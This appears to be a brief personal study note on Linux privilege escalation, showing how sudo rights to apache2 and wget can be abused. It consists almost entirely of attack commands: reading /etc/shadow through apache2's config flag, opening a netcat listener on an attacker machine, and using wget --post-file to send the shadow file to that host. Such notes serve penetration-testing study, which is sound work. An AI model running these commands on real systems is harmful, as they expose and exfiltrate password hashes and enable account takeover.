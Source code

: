 
<h3>ESCALATION VIA INTENDED FUNCTIONALITY</h3>

view shadow file using apache2
sudo apache2 -f /etc/shadow
![[Pasted image 20250501155500.png]]

get shadow file thru wget
**attacker**: 
``nc -nvlp 8081``

**victim**: send wget command: 
``sudo wget --post-file=etc/shadow (ip of attacker:port)``
![[Pasted image 20250501155521.png]]
